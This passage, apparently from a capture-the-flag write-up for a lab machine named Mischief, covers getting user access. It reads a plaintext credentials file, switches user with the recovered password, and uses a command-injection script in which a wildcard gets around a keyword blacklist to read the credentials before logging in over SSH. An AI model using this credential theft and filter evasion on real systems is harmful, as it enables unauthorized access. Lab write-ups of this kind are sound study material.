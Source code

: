 From this shell, I can’t read user.txt, but I can read the credentials in loki’s home dir:

```

www-data@Mischief:/home/loki$ ls
credentials  hosted  user.txt

www-data@Mischief:/home/loki$ cat user.txt 
cat: user.txt: Permission denied

www-data@Mischief:/home/loki$ cat credentials 
pass: lokiisthebestnorsegod

```

I can use those to `su loki`, and then get user.txt:

```

www-data@Mischief:/home/loki$ su loki
Password: 
loki@Mischief:~$ cat user.txt 
bf58078e...

```

### Option #2 - Get Creds and SSH

I can also just get the creds from the command injection RCE, as long as I can avoid using the term “credentials”, as it is blacklisted. Simple wildcards get around that though:

```

root@kali# ./run_command.sh dead:beef::250:56ff:feb2:f978 "cat /home/loki/credential?"
pass: lokiisthebestnorsegod

```

Armed with that password, I can ssh in as loki:

```

root@kali# ssh loki@10.10.10.92
...[snip]...
loki@Mischief:~$ id
uid=1000(loki) gid=1004(loki) groups=1004(loki)
loki@Mischief:~$ cat user.txt 
bf58078e...

```

## Privesc: loki –> root

### Enumeration
